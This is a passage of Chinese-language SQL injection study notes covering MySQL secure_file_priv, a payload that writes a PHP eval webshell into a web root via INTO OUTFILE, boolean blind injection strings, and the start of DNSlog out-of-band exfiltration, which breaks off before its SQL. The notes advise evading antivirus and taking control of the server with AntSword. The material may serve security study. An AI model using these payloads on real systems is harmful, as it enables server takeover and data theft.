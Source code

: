 3. 主要关注 secure_file_priv，priv 即 privilege，这是一个用于指定数据库服务器上允许执行LOAD DATA INFILE和LOAD XML语句时的文件路径限制的系统变量。如果设置了这个变量，那么只有在指定路径下的文件才能被加载。当前情况下，它被设置为NULL，这意味着没有明确指定的路径限制，任何地方的文件都**不**可以被加载。测试时需要在 my.ini 中配置 secure_file_priv="" 空，才能使任意地方文件都可以加载。

4. 注入木马

5. ```sql
   select 1,2,'<?php @eval($_POST["abc123"])?>' into outfile "C:\\phpstudy_pro\\WWW\\hackin.php"
   ```

6. Linux 服务器 可能的路径："/var/www/html/test/"

7. 实战时需要考虑绕过木马检测，这种一句话木马很快就会被 windows 自带杀毒软件杀掉

8. 用 antsword 连接，获取服务器控制权



# 布尔盲注

适用于页面只有真值、假值两种情况。手工布尔盲注费时费力。

1. 先判断闭合方式/页面的真假性：and 1=1, and 1=2

2. ```
   ?id=1' and length((select database())) > 9 --+
   ```

3. 通过调整参数得知 select database() 返回值的长度

4. ```
   ?id=1' and ascii((select database())) > 100 --+
   ```

5. 通过调整参数得知 database 的第一个字符的 ascii 码值

6. 利用 substr 选择查看其他位置上的字母（substr() 和 substring() 没有区别，下标从1开始）

7. ```
   ?id=1' and ascii(substr((select database()),2,1)) > 100 --+
   ```

8. 依此类推重复之前题目的方法

# DNSlog 渗透

DNSLog渗透是一种利用DNS（域名系统）协议进行攻击和信息收集的技术。其原理基于DNS协议的特性，即将域名解析为IP地址。攻击者可以创建一个恶意的DNS服务器，当受害者的计算机尝试解析特定的域名时，DNS服务器会记录请求，并将请求信息发送给攻击者，从而实现信息收集。

当我们发送给服务器的代码会执行但缺少回显的时候，dnslog 相当于给了我们一个回显的窗口。我们的目标就是，让目标服务器把我们的代码执行以后的返回值和域名连接起来，对指定域名进行访问从而留下痕迹。

1. 在 www.dnslog.cn 中搞一个域名，比如说这里搞到的是：sy119q.dnslog.cn

2. 构造 sql 语句：
